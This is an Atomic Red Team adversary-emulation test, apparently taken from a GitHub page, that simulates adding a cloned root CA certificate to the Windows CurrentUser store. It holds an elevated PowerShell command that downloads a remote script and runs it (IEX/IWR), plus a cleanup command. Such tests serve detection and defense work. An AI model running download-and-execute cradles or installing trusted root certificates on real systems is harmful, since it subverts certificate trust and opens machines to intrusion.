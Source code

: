 The following Atomic test simulates adding a generic non-malicious certificate to the CurrentUser certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec

**Supported Platforms:** Windows

**auto_generated_guid:** ca20a3f1-42b5-4e21-ad3f-1049199ec2e0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing)
```

#### Cleanup Commands:

```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```

<br/>
